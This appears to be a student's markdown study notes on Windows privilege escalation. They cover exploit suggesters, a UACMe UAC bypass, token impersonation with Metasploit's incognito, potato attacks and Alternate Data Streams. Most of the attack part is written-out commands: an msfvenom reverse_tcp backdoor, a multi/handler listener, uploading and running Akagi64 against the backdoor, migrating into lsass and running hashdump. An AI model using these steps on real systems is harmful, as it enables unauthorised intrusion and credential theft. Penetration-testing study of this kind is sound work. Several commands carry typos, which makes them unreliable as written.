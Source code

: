 <h2> Windows Kernel Exploits </h2>
<h4> Windows-Exploit-Suggester </h4>

![[Screenshot_2025-09-11_18_48_58.png]]


after getting reverse shell :-

	There is also an inbuild exploitation of metasploit meterpreter
	meterpreter> getsystem
	

For metasploit press ctrl+z to background : 
```
search suggester
use post/multi/recon/local_exploit_suggester
```
		This will provide the list of exploits that can be carried on the target.
```
use exploit/
set SESSION
set LPORT
run
```

2nd Method with metaspolit meterpreter:
```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python2 windows-exploit-suggester --update
```
the above code will give yyyy-mm-dd.xsls file with latest windows vulnerability to test.


```
meterpreter> shell
c:/temp/ systeminfo

Output_sysinfo

```
copy the output_sysinfo and save in attacker with file name example sysinfo_target.txt .

```
python2 windows-exploit-suggester --database yyyy-mm-dd.xls --systeminfo sysinfo_target.txt 
```
		This will provide the list of exploits that can be carried on the target.


<h2> Bybassing UAC with UACMe </h2>
![[Pasted image 20250912133507.png]]

> we need to have access to a user account that is a part of the local administrators group on target system.
> The admin account must have default UAC settings.

> if UAC protection level is below **HIGH**.  Windows programs can be executed with elevated privileges without any consent.

> https://github.com/hfiref0x/UACME

`in target machine type the following command to view the users that have local administrative privilage `

```
net localgroup administrator
```

![[Pasted image 20250912150600.png]]
the above to commands to shift from 32 bit to 64 bit.

```
meterpreter> getuid
meterpreter> getprivs
meterpreter> shell
C:\windows\system32\ net user
C:\windows\system32\ net localgroup administrators
C:\windows\system32\ net user admin password123

`THE ABOVE COMMAND IS TO CHANGE PASSWORD. ACCESS IS DENIED SYSTEM ERROR 5 HAS OCCURED. THIS IS DUE TO UAC`
 
```

> the system requirements is the UAC must be set to default.
> we can use akagi32 key param or akagi64 key param.
> go to its github readme to understand on key.

`For more information go to [https://github.com/hfiref0x/UACME]`

```
git clone https://github.com/hfiref0x/UACME.git
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > backdoor.exe
```

go to temp directory in target machine and upload backdoor.exe
```
meterpreter>cd /
meterpreter>cd C:\\Users\\admin\\AppData\\Local\\Temp
meterpreter>upload backdoor.exe
meterpreter>upload akagi64.exe
meterpreter>shell 
c:\temp\ Akagi64.exe 23 c:\temp\backdoor.exe
```

this will give a backdoor and dont forget to start a netcat listener 
check using getprivs this shows the privileges you have

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.31.2
set LPORT 4444
exploit
```
This is another terminal

when connected successfully
`use migrate <processID> to migrate into AUTHORITY level`
```
ps -S lsass.exe
migrate <Pid>
hashdump
```

<h2>Windows Access Tokens</h2>
>It is managed by Local Security Authority Subsystem Service.
![[Screenshot_2025-09-13_13_22_11.png]]
>The following are the privileges required for a successful impersonation attack:

1. SetAssignPrimayToken: allows a user to impersonate tokens.
2. SeCreateToken: Create an arbirary token with administrative privilege.
3. SeImpersonatePrivilege: Create a process with administrative privilege.

_> Incognito is a built in module of metasploit that allsows us to impersonate user tokens after successful exploitation.

after exploitation of the target system with meterpreter session:
```
sysinfo
pgrep explorer // 2512
migrate 2512  //access denied
getuid   //AUTHORITY\Local Service
getprivs
```
![[Pasted image 20250913134932.png]]
```
load incognito
exploit
list_token -u
```
![[Pasted image 20250913135201.png]]
```
impersonate_token "__"
getprivs
getuid
migrate <pid>
```
_> If you find no  token available in Delegation and Impersonation when list_token -u is performed then perform POTATO ATTACK.

This will generate a NT AUTHORITY\SYSTEM token. :)

<h2> Windows File Systetm Vulenerabilites </h2>
<h4> Alternate Data Streams </h4>
_>This is the one of the ways to hide malicious code in legitimate files _
![[Screenshot_2025-09-13_15_34_49.png]]
![[Screenshot_2025-09-13_15_43_44.png]]
Run the terminal as administrator to mklink

![[Screenshot_2025-09-13_15_43_55.png]]Alternate Data Streams is an NTFS and ext4 filesystem attribute?
False.